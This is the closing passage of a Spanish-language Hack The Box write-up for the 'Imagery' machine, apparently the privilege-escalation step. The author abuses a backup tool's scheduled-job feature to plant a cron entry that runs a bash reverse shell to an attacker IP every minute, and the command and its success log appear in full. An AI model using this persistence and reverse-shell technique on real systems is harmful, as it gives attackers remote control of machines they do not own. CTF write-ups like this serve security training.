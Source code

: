 ```bash
      Purpose: Show help for Charcol or a specific command.
      Example:
        help backup

Global Flags (apply to all commands unless overridden):
  --app-password <password>    : Provide the Charcol *application password* directly. Required for 'auto' commands if status 1. Less secure than interactive prompt.
  -p, "--password" <password>    : Provide the *file encryption/decryption password* directly. Overrides application password for file operations. Less secure than --ask-password.
  -v, "--verbose"                : Enable verbose output.
  --quiet                      : Suppress informational output (show only warnings and errors).
  --log-file <path>            : Log all output to a specified file.
  --dry-run                    : Simulate actions without actual file changes (for 'backup' and 'fetch').
  --ask-password               : Prompt for the *file encryption/decryption password* securely. Overrides -p and application password for file operations.
  --no-banner                   : Do not display the ASCII banner.
  -R, "--reset-password-to-default"  : Reset application password to default (requires system password verification).
```

Esta herramienta sirve para encriptar archivos como el que desciframos... zip.aes.

Luego de leer y analizar el tutorial de esta herramienta, note que la Automated Jobs (Cron) permite correr --command para programar el comando de respaldo. En lugar del comando de respaldo, puedo agregar una "revershell" aquí.

El comando es el siguiente, con --schedule para establecer el tiempo de ejecución del comando, --command el comando que se va a ejecutar y --name para nombrar este trabajo, finalmente agregue la IP de la maquina Kali y el puerto opcional.

```bash
auto add --schedule "* * * * *" --command "/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.8/443 0>&1'" --name "test"
```

Este comando lo va a ejecutar cada minuto asi que tenemos tiempo para ponernos en escucha.

```bash
charcol> auto add --schedule "* * * * *" --command "/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.8/443 0>&1'" --name "test"
[2025-10-27 15:49:38] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-10-27 15:49:44] [INFO] System password verified successfully.
[2025-10-27 15:49:44] [INFO] Auto job 'test' (ID: e2e5843e-2e6f-4add-9e4f-4a9993c573da) added successfully. The job will run according to schedule.
[2025-10-27 15:49:44] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.8/443 0>&1'
```

![](htb-writeup-imagery/imagery37.png)

Eso seria todo por la maquina Imagery de Hack The Box. GRACIAS!!!!!!!
 